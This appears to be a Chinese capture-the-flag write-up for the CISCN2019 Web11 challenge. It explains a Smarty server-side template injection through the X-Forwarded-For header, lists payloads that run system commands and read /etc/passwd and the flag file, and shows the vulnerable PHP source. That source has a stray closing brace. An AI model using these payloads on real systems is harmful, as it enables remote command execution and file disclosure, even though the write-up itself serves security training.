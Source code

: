 # \[CISCN2019 华东南赛区]Web11

## \[CISCN2019 华东南赛区]Web11

## 考点

* Smarty SSTI

## wp

其实是给了提示的，在请求头中加`XFF`，并且是smarty框架，smarty很经典的考点就是SSTI

![](<../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png>)

burp抓包改XFF存在回显

![](<../../.gitbook/assets/image (8) (1) (1) (1) (1).png>)

然后尝试SSTI

![](<../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png>)

再按照下图方法判断SSTI类型

![](../../.gitbook/assets/8sFfzWRJrj.png)

是Smarty SSTI

![](<../../.gitbook/assets/image (11) (1) (1) (1).png>)

Smarty支持使用`{php}{/php}`标签来执行被包裹其中的php指令，最常规的思路自然是先测试该标签。但是在<mark style="color:red;">Smarty3中已经废弃{php}标签</mark>。在Smarty 3.1中，`{php}`仅在SmartyBC中可用。

利用方法：

1. `{self::getStreamVariable("file:///etc/passwd")}`在3.1.30版本删除
2. `{if phpinfo()}{/if}`
3. `{{system('ls')}}`

payload：`{{system('cat /flag')}}`

## 小结

1. smarty SSTI源码

```php
<?php

require_once('./smarty/libs/' . 'Smarty.class.php');

$smarty = new Smarty();

$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];

$smarty->display("string:".$ip);

}
```
